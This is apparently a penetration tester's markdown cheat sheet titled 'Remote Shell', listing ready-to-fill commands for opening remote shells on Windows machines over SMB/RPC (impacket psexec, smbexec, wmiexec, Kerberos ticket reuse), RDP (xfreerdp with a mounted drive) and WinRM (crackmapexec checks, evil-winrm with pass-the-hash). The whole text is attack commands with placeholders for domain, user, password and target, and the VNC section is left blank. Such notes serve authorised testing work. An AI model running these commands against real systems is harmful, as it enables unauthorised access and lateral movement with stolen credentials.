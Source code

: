 # Remote Shell
## SMB & RPC: 445, 135
`impacket-psexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-smbexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`impacket-wmiexec '<DOMAIN>/<USER>:<PASS>@<IP>'`
`KRB5CCNAME='<CCACHE>' python3 ~/Desktop/OPSEC/tools/impacket/examples/smbexec.py -k -no-pass <DOMAIN>/<USER>@<TARGET>`

## RDP: 3389
`impacket-rdp_check '<DOMAIN>/<USER>:<PASS>@<IP>'` check
 `xfreerdp /u:DOMAIN\<USER> /p:<PASS> /v:<IP> /dynamic-resolution /drive:share,/tmp`
`remmina`

## WinRM: 5985, 5986
`crackmapexec winrm <IP> -u <USER> -p <PASS>` check
`evil-winrm -i <IP> -u <USER> -p <PASS>` (PtH)

## VNC
??